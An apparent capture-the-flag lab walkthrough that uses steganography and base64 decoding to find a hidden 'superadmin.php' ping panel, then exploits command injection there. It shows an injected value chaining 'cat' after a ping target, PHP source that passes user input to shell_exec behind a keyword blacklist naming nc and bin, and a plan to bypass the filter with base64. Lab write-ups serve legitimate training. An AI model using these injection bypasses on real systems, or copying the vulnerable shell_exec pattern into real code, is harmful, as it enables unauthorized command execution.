Short.png                                 100%[===================================================================================>] 995.49K   392KB/s    in 2.5s    

2022-10-14 00:11:14 (392 KB/s) - ‘Short.png’ saved [1019381/1019381]
                                                              
Now we have downloaded all the images in the webpage, let's use steghide to extract hidden contents.

image

command used steghide extract -sf haclabs.jpeg using the passphrase: "harder", we got the hidden file "imp.txt" that is in the image. Let's check the content of imp.txt.

┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ cat imp.txt      
c3VwZXJhZG1pbi5waHA=
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ echo "c3VwZXJhZG1pbi5waHA=" | base64 -d                
superadmin.php                                                                                                                                             
The content of imp.txt was a base64 encoding and it was dcoded to superadmin.php now let's check this on the page.

image

nice we got a ping command panel, let's try ping 127.0.0.1.

image

we got a response, let's test for command injection.

image

we have command injection. let's try inject a revserse shell. tried differnt reverse shell payload none worked, let's check the source code for the superadmin.php to see what is happening. 127.0.0.1 | cat superadmin.php

image

source code:

<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
some commands are blocked, let's try encode our payload in base64 to bypass restrictions.
